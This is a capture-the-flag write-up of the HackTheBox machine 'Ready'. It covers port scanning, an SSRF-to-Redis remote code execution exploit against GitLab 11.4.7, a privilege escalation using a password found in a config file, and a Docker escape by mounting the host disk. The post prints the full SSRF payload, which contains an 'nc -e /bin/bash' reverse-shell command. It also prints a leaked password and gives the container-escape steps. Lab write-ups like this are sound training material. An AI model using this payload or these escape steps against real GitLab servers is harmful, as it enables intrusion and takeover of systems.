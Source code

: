 ```yaml
---
title: Ready Hackthebox Writeup
date: 2020-12-17 09:00:00 +0800
categories: [Hackthebox, Active]
tags: []     # TAG names should always be lowercase
image: /assets/img/ready-hackthebox/ready-pic.jpg
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Luanne:~$


Column | Details
------------ | -------------
Name | Ready
IP | 10.10.10.220
Points | 30
Os | Linux
Difficult | Medium
Creator | [bertolis](https://app.hackthebox.eu/users/27897)
Out on | 28th November 2020

# Summary:~$

* Discovering the new host and scanning for open ports.
* Logging in `Port 5080`, which is a `gitlab` signup/signin page.
* Checking the gitlab version, which is `11.4.7`
* Looking for vulnerabilities for that version, found `SSRF - redis - RCE` in gitlab 11.4.7.
* Exploiting the `vulnerability` and getting the `reverse shell`.
* For `Privilege escalation`, found a password file and logged in as `root` in the container.
* **Mounting** the drives present in `/dev` of the container, to get the `Root Flag`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/ready-hackthebox/nmap-automator-2.png)

I accessed port `5080` which shows a gitlab login and signup page.

___
![](/assets/img/ready-hackthebox/accessing-port-5080-3.png)

Along with that I also checked the `/robots.txt`.

___
![](/assets/img/ready-hackthebox/accessing-robots-txt-4.png)

There are a lot of directories but let's first `signup` and then `login`.

___
![](/assets/img/ready-hackthebox/registering-5.png)

The following page is displayed after logging in

___
![](/assets/img/ready-hackthebox/signed-in-6.png)

In such cases, first thing I do is to check the `version` of **Gitlab**. After checking the `help` option in menu, I got this

___
![](/assets/img/ready-hackthebox/help-section-version-7.png)

I googled a bit and got to know that `Gitlab` version `11.4.7` is vulnerable to `RCE via SSRF`.

I found a [`Git Repository`](https://github.com/jas502n/gitlab-SSRF-redis-RCE) and [`Live Overflow`](https://www.youtube.com/watch?v=LrLJuyAdoAg) also explained it in one of his videos.

Now creating a new `Project` in Gitlab by importing it via `git Repo byURL`.

___
![](/assets/img/ready-hackthebox/import-project-by-git-URL-12.png)

Now before pressing the `save` button, setting up proxy and turn on the interceptor on `Burp`.

After `Intercepting` the request, let's replace `import_url` parameter by the following payload:

: git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
: multi
: sadd resque:gitlab:queues system_hook_push
: lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash IP PORT\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
: exec
: exec
: exec
:/ssrf.git

Make sure to check the [POC](https://github.com/jas502n/gitlab-SSRF-redis-RCE) for `RCE via SSRF`, I got the above payload after making some changes. (*Make sure you check the gaps specified in the POC, or else the playload won't work **It didn't in my case** .*)

___
![](/assets/img/ready-hackthebox/final-req-16.png)

After listening on port 1234, I got a `Reverse shell` as `git`, converted it to an [interactive shell](https://netsec.ws/?p=337)

___
![](/assets/img/ready-hackthebox/tty-shell-19.png)

Got `User Shell`

___
![](/assets/img/ready-hackthebox/got-user-text-20.png)

After getting `user flag`, For `Privilege Escalation` I started with manual enumeration and got a `backup folder` in `/opt` directory.
It contained 3 files i.e. 
1. gitlab-secrets.json
2. gitlab.rb
3. docker-compose.yml

After having a look at each of these files, I found that `gitlab.rb` contained some `passwords`.

___
![](/assets/img/ready-hackthebox/few-passwords-23.png)

Simultaneously trying each password, `wW59U!ZKMbG9+*#h` one worked as **sudo su**.

___
![](/assets/img/ready-hackthebox/became-root-but-not-root-text-24.png)

After becoming root, I tried finding out the `root.txt` but there wasn't any because we are in a **container** as *root*.

___
![](/assets/img/ready-hackthebox/not-root-text.png)

After reading this blog on [Unprivileged container builds](https://kinvolk.io/blog/2018/04/towards-unprivileged-container-builds/), I tried the `new mount` technique, but before proceeding further I need to know the drives which are present in `/dev` directory with the name of `sda`.

___
![](/assets/img/ready-hackthebox/dev-sda-command-25.png)

There are 4 sda disks present, with the following names:
1. sda
2. sda1
3. sda2
4. sda3

I tried mounting all of them but only `sda2` worked.

___
![](/assets/img/ready-hackthebox/only-sda-test3-worked-27.png)

Entering the `test-sda2` folder and accessing the `root` directory, I got the `Root Flag`.

___
![](/assets/img/ready-hackthebox/got-root-flag-28.png)

___
















